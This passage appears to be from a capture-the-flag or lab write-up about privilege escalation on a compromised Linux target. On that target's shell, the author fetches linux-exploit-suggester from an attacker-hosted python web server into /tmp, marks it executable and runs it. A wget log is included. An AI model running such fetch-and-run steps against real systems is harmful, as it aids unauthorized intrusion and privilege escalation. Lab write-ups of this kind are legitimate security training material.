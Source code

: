 ```bash
internal  user1.txt  
```

After a long time enumerating, I decided to try out Linux Suggester instead of the others given that weren't as helpful and I'm old school. 

I started a python webserver in a separate tab: 

```python

python3 -m http.server 8000

```

Then on my local machine, I installed Linux Exploit Suggester via wget. 

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

On my stabilized shell, I ran wget to my local machine to retrieve linux exploit suggester and make it available on my target's shell.

```bash
wget http://10.10.146.120:8000/les.sh -O /tmp/les.sh
chmod +x /tmp/les.sh
/tmp/les.sh
```


## Privilege Escalation 


Installed Linux Suggester

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
--2024-09-21 15:14:45--  https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 90858 (89K) [text/plain]
Saving to: \u2018les.sh\u2019

les.sh              100%[===================>]  88.73K  --.-KB/s    in 0.001s  

2024-09-21 15:14:45 (66.3 MB/s) - \u2018les.sh\u2019 saved [90858/90858]

```


Transferred it over python -m http.server 8000
